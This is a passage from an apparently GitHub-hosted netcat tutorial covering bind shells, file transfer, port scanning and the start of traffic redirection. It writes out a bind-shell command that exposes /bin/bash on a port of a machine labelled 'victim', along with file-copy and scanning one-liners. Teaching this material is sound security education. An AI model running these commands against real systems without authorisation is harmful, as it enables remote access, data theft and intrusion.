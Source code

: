 Server (victim machine)

```sh
nc -e /bin/bash -lvnp 8080
```

Client (attacker machine)

```sh
nc 192.168.125.10 8080
```

### File Transfer

Due to the ability to write to the connections raw, we can transfer files over the connection from one system to another without distortion.

For this we don't really care about which is the server and which is the client because the transfer can go either direction but we need
to run the listener first.

To transfer a file on server1 to server2 over port 8080 can be done as below:

```sh
nc -lvnp 8080 < infile   (server1)
nc 192.168.125.10 8080 > outfile  (server2)
```
To do the same in the opposite direction:

```sh
nc 192.168.125.20 8080 < infile (server1)
nc -lvnp 8080 > outfile (server2)
```

### Port Scanning

This feature is not implemented in ncat but is available in the other variants. According to their website they omitted this feature because
they have a better tool for that, which would be nmap.

Therefore if you find a system with netcat-openbsd and can't install nmap you can run basic port scans as below.

To scan TCP ports on a target we can use the below syntax.

```sh
nc -nvv -w 1 -z 127.0.0.1 1-1000
```

To scan UDP ports on a target we can use the below syntax.

```sh
nc -nvv -w 1 -z -u 127.0.0.1 1-1000
```

### Traffic Redirection

This is only possible on the variants that support the -e option.

Take the below scenario where server1 cannot connect directly to server3 but can only go through server2.
